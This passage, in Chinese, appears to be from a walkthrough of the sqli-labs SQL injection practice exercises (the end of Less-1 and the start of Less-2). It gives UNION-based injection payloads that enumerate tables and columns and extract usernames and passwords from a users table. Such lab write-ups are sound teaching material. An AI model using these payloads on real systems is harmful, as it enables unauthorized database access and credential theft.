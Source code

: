 

然后继续往下面查

查询字段的值

```
?id=-1' union select 1,2,group_concat(username) from security.users --+
```



找到敏感字段进行查询

```
?id=-1' union select 1,2,group_concat(password) from security.users --+
```





如果是常规流程，操作应该如下进行查询



指定数据库库名，进行查询表名

```sal
group_concat(table_name) from information_schema.tables where table_schema= 'xxx' --+
```



指定该数据库的库名，再指定表名，进行查询列名

```
group_concat(column_name) from information_schema.columns where table_name='user'--+
```





### Less-2

基于错误的的GET整型注入



```
?id=1 order by 3 --+
```



```
?id=1 and 1=2 union select 1,2,3; --+
```



```
?id=1 and 1=2 union select 1,2,database(); --+
```



```
?id=1 and 1=2 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```
